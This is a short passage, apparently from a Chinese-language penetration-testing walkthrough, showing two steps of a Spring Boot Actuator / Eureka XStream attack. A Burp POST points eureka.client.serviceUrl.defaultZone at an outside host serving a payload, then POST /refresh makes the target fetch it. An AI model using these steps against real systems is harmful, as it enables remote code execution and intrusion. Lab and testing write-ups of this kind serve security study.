 ![](media/7622e80d3286c478d7fdf42a216d67d4.png)



使用Burp构造请求报文发送POST请求

```
eureka.client.serviceUrl.defaultZone=http://192.168.233.249/xstream
```

![](media/85864c908118a436d542c5dfc3fedba5.png)

刷新配置

```
POST /refresh
```

![](media/e061acae7d5aaf5dd9e36a188a0c7375.png)
